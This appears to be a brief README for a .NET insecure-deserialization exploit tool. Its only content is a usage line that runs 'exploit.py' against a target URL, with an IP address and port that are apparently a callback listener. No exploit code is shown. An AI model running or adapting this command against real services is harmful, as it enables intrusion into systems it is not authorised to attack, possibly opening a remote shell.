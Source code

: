 # dotnet-insecure-desserialization

Usage:
  python3 exploit.py --url "http://127.0.0.1/api/vulnerable" --ip "192.168.1.2" --port "80"
